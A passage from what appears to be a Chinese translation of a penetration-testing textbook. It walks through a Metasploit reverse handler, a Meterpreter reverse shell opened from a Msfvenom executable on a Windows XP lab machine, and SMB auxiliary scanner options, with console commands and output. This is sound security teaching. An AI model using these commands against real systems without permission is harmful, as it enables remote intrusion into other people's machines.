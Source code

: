 从这里我们告诉 Metasploit 在创建有效载荷时使用的设置。我们将`LHOST`选项设置为本地 Kali IP 地址，将`LPORT`设置为我们在 Msfvenom 中选择的端口，在这个例子中是 192.168.20.9 和 12345。一旦所有有效载荷选项正确设置，输入**`exploit`**，如示例 4-17 所示。

示例 4-17. 设置一个处理程序

```
msf  exploit(handler) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(handler) > **set LPORT 12345**
LPORT => 12345
msf  exploit(handler) > **exploit**

[*] Started reverse handler on 192.168.20.9:12345
[*] Starting the payload handler...
```

如你所见，Metasploit 根据指示在端口 12345 上设置了一个反向处理程序，监听回调的有效载荷。

现在我们可以切换回我们的 Windows XP 目标，运行我们下载的可执行文件。在 Windows 目标上运行*chapter4example.exe*。回到 Msfconsole，你应该会看到处理程序收到反向连接，并且你获得了一个 Meterpreter 会话。

```
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:12345 -> 192.168.20.10:49437) at 2015-09-01 11:20:00 -0400

meterpreter >
```

如果你愿意，可以花些时间尝试一下 Msfvenom。我们将在第十二章中讨论如何利用这个有用的工具绕过防病毒解决方案。

## 使用辅助模块

Metasploit 最初是作为一个漏洞利用框架构思的，至今依然是漏洞利用领域的顶尖竞争者。但在随后的几年中，它的功能已经扩展到几乎所有方向，就像有那么多富有创意的人在为它工作一样。我有时开玩笑说，Metasploit 除了洗衣服什么都能做，而我目前正在为此开发一个模块。

除了漏洞利用之外，Metasploit 还拥有帮助渗透测试各个阶段的模块。有些模块不是用于漏洞利用的，它们被称为*辅助模块*；这些模块包括漏洞扫描器、模糊测试工具，甚至拒绝服务模块。（一个好记的经验法则是：漏洞利用模块使用有效载荷，而辅助模块不使用。）

例如，当我们在本章早些时候首次使用*windows/smb/ms08_067_netapi*漏洞利用模块时，它的选项之一是`SMBPIPE`。该选项的默认值是`BROWSER`。让我们来看一个辅助模块，它将枚举 SMB 服务器上正在监听的管道，*auxiliary/scanner/smb/pipe_auditor*（示例 4-18）。(我们像使用漏洞利用模块一样使用辅助模块，和漏洞利用模块一样，我们也可以省略模块名中的*auxiliary/*部分。)

示例 4-18. 扫描器/smb/pipe_auditor 的选项

```
msf > **use scanner/smb/pipe_auditor**
msf  auxiliary(pipe_auditor) > **show options**

Module options (auxiliary/scanner/smb/pipe_auditor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
  ❶RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads
```
